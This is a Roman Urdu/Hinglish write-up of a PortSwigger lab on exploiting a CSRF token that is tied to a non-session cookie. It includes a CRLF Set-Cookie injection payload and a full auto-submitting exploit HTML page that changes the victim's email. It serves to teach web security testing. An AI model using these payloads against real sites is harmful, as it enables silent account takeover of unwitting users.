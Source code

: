 # 🧪 Lab: CSRF where token is tied to non-session cookie

## 🔰 Lab Ka Maqsad:

Victim ka email change karna via CSRF, jab ke CSRF protection lagi hui hai — lekin poorly implemented hai. Is lab mein hum exploit karenge ek cookie injection bug ko, jahan CSRF token session se linked nahi hai.

---

## 🔍 Core Concepts Jo Lab Mein Use Hue:

### 1. **Session Cookie (ID Card)**

* Jab user login karta hai, server usay ek `session` cookie deta hai.
* Har request mein yeh cookie jati hai taake server pehchaan sake ke yeh kaun user hai.
* Example:

  ```http
  Cookie: session=abc123
  ```
* **Real life analogy:** Tu bank gaya, ID card diya, ab tu andar jaa sakta hai.

---

### 2. **CSRF Token (Visible Stamp on Form)**

* Yeh token har sensitive form (jaise email/password change) ke sath hota hai.
* Server isay check karta hai ke request asli user se aa rahi hai ya nahi.
* Example:

  ```html
  <input type="hidden" name="csrf" value="xyz456">
  ```
* **Real life analogy:** Form pe safety stamp lagta hai, warna bank form reject karega.

---

### 3. **CSRFKey Cookie (Invisible Stamp)**

* Kuch websites csrf token ko ek cookie ke zariye bhi store karti hain — `csrfKey`
* Jab form submit hota hai, server **form ke token** aur **cookie ke csrfKey** ko match karta hai.
* Example:

  ```http
  Cookie: csrfKey=xyz456
  ```
* **Note:** Har website csrfKey nahi use karti, lekin kuch frameworks kartay hain (Angular, Django, etc.)

---

## ⚠️ Vulnerability Ka Root:

### ❌ Poor Implementation:

* CSRF token aur csrfKey ka **koi relation session se nahi hai**
* Matlab agar tu kisi victim ke browser mein **apna csrfKey daal de**, aur wahi token use kare form mein — to request accept ho jaati hai

### 🔁 Token Reuse:

* CSRF token har session ke sath unique hona chahiye, lekin yahan reuse ho raha hai
* Session change karne par bhi server token accept kar raha hai (badi security flaw)

---

## 🚀 Lab Solving Ka Step-by-Step Tareeqa:

### ✅ Step 1: Login as wiener

* Burp browser se `wiener:peter` se login karo
* Profile se email change karo (e.g. `a@x.com`)
* Burp Proxy mein us request ko intercept karo
* Copy karo:

  * `csrf` token (form field se)
  * `csrfKey` (cookie se)

### ✅ Step 2: Repeater Test

* Repeater mein request bhejo
* `session` cookie badlo → logout ho jata hai (expected)
* `csrfKey` ya `csrf` badlo → "Invalid CSRF token" aata hai
* **Matlab:** token valid hona chahiye, lekin session se tied nahi hai (yahi bug hai)

### ✅ Step 3: Victim Account se Confirm karo (Carlos)

* Incognito browser mein login karo as `carlos:montoya`
* Email update karo
* Burp mein request bhejo
* Ab `wiener` wala csrf token + csrfKey ismein use karo
* Agar accept ho gaya → vulnerability confirmed

### ✅ Step 4: Reflected Cookie Injection Test

* `/?search=test` URL open karo
* Dekho response headers mein kya `Set-Cookie` aa raha hai?
* Try karo:

  ```
  ```

/?search=test%0d%0aSet-Cookie:%20csrfKey=XYZ

````
- Agar cookie inject ho gayi → boom, cookie injection possible

---

## 💣 Exploit HTML Ka Breakdown (Jo Exploit Server Pe Host Hoga)

```html
<html>
<body>
  <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@evil.com">
    <input type="hidden" name="csrf" value="YOUR_CSRF_TOKEN">
  </form>

  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR_CSRF_TOKEN%3b%20SameSite=None"
       onerror="document.forms[0].submit()">
</body>
</html>
````

### 🔍 Har Part Ka Matlab:

* `<form>`: Yeh wo form hai jo victim ke browser mein background mein submit hoga
* `<input name=csrf>`: Yeh wo CSRF token hai jo form ke sath bhejna hai
* `img src=...`: Yeh image intentionally load nahi hoti (kyunke yeh malformed hai)
* `Set-Cookie` inject karta hai → victim ke browser mein csrfKey set ho jati hai
* `SameSite=None`: Browser ko allow karta hai ke dusri site se cookie set ho jaye
* `onerror`: Jab image fail hoti hai, JavaScript form ko auto-submit kar deta hai

---

## 🎭 Victim Ko Fool Kaise Banaya?

* Usko ek innocent page dikhaya jisme kuch image load ho rahi thi
* Image actually cookie injection kar rahi thi (`csrfKey`)
* Us image ke fail hone pe background mein form submit ho gaya
* Us form mein **attacker ka email + attacker ka csrf token** tha
* Server ne verify kiya → token match hua (kyunke wo attacker ka token tha)
* Email update ho gayi — bina victim ko pata chale

---

## 🧠 Penetration Testing Lessons:

### 💡 Jab bhi CSRF test karo:

* Dekho form mein hidden token hai?
* Dekho koi `csrfKey` type ki cookie to nahi?
* Dekho token har login ke sath change hota hai ya same rehta hai?
* Dekho reflected input headers mein inject to nahi ho raha?

### 💥 Agar session se tied nahi hai:

* Token kisi bhi session mein kaam karega → CSRF possible
* Especially agar cookie injection bhi possible hai

### 🛠️ Frameworks jahan aise flaws milte hain:

* Poorly configured Django apps
* Old PHP apps
* Custom made frameworks without token-session mapping

---

## ✅ Final Summary:

* Yeh lab ek **cookie injection + CSRF** combo tha
* Server sirf token check kar raha tha — lekin wo kis session ka hai, yeh nahi dekh raha tha
* Humne image ke zariye cookie inject ki
* Form auto-submit karwaya
* Victim ka email silently change kar diya

---
